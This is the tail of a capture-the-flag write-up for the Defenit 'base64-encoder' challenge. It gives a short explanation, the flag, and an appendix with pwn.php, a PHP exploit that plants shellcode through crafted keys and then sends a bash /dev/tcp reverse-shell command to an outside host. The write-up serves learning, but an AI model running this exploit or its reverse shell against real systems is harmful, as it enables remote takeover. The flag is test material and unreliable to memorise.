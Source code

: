 The binary only reads `0x1000` bytes from stdin, but Apache will write
anything sent by the client, even if it is longer than the `0x1000` bytes.

This behaviour can be used to interact with the binary once the shellcode is
executed by sending the payload padded to `0x1000` bytes, followed by a command.

**Flag**: `Defenit{dGhpc19pc19yZWFsbHlfc3RyYW5nZV9lbmNvZGVyLHJpZ2h0Pzpw}`

## Appendices

### pwn.php

```php
#!/usr/bin/php
<?php
const ENDPOINT = "http://base64-encoder.ctf.defenit.kr/cgi-bin/chall";

function send($type, $key, $buffer)
{
	static $curl;

	if(!$curl) {
		$curl = curl_init(ENDPOINT);
		curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
	}

	$data = sprintf("cmd=%s&key=%s&buf=%s", $type, $key, $buffer);
	curl_setopt($curl, CURLOPT_POSTFIELDS, $data);

	$response = curl_exec($curl);
	$response = substr($response, 29, -3);
	return $response;
}

function encode($key, $buffer)
{
	return send("encode", $key, $buffer);
}

function decode($key, $buffer)
{
	return send("decode", $key, $buffer);
}

// rwx @ 0x77777000
$key  = str_pad("T+F+N+S/X+e+R", 0x20, "/");
$key .= pack("V", 0x41414141);   // 0x77777020
$key .= pack("V", 0x41414141);   // 0x77777024
$key .= pack("V", 0x41414141);   // 0x77777028
$key .= pack("V", 0x77777030);   // 0x7777702c: pc
$key .= file_get_contents("sc"); // 0x77777030

$buffer = pack("V", 0x77777030);
$clear  = decode($key, $buffer);
assert(3 === strlen($clear));
//fprintf(STDERR, "Recode: %s\n", encode($key, $clear));
fprintf(STDERR, "clear = %s\n", bin2hex($clear));

$buffer  = str_repeat($clear, (249 + 12) / 2);
$buffer  = str_pad($buffer, 0x1000, "\n"); // ensure the buffer is filled

$buffer .= "bash -c 'bash</dev/tcp/$host/$port'\n";
$buffer .= str_repeat("\n", 0x1000);
encode($key, $buffer);
```